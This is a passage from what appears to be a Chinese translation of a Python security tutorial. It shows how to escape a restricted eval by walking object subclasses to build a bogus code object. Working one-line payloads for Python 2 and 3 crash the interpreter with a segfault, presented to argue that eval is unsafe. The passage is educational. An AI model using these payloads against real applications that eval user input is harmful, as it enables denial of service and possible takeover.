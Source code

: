 其中，我们想要的是`code`对象类型。这可以通过检查项目的名称通过`__name__`属性来访问：

```py
>>> [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == 'code']
```

这是通过使用匿名`lambda`函数实现的相同效果：

```py
>>> (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code')
[<type 'code'>]
```

接下来，我们想要执行这个代码对象。然而，`code`对象不能直接调用。它们需要绑定到一个函数才能被调用。这是通过将前面的`lambda`函数包装在外部`lambda`函数中实现的：

```py
>>> (lambda f: (lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x])('code'))
<function <lambda> at 0x7f8b16a89668
```

现在我们的内部`lambda`函数可以分两步调用：

```py
>>> (lambda f=(lambda x: [c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): f('function')(f('code')))
<function <lambda> at 0x7fd35e0db7d0>
```

最后，我们通过这个外部的`lambda`函数调用`code`对象，传递了大多数默认参数。代码字符串被传递为字符串`BOOM`，当然，这是一个虚假的代码字符串，会导致 Python 解释器崩溃，产生核心转储：

```py
>>> (lambda f=(lambda x: 
[c for c in [].__class__.__bases__[0].__subclasses__() if c.__name__ == x][0]): 
f('function')(f('code')(0,0,0,0,'BOOM',(), (),(),'','',0,''),{})())()
Segmentation fault (core dumped)
```

这表明在任何情况下，即使没有内置模块的支持，`eval`都是不安全的，并且可以被聪明而恶意的黑客利用来使 Python 解释器崩溃，从而可能控制系统。

请注意，相同的利用在 Python 3 中也有效，但是我们需要对`code`对象的参数进行一些修改，因为在 Python 3 中，`code`对象需要额外的参数。此外，代码字符串和一些参数必须是`byte`类型。

以下是在 Python 3 上运行的利用。最终结果是相同的：

```py
$ python3 test_eval.py 
"(lambda f=(lambda x: [c for c in ().__class__.__bases__[0].__subclasses__() 
  if c.__name__ == x][0]): f('function')(f('code')(0,0,0,0,0,b't\x00\x00j\x01\x00d\x01\x00\x83\x01\x00\x01d\x00\x00S',(), (),(),'','',0,b''),{})())()"
Segmentation fault (core dumped)
```

## 溢出错误

在 Python 2 中，如果`xrange()`函数的范围无法适应 Python 的整数范围，则会产生溢出错误：

```py
>>> print xrange(2**63)
Traceback (most recent call last):
    File "<stdin>", line 1, in <module>
OverflowError: Python int too large to convert to C long
```
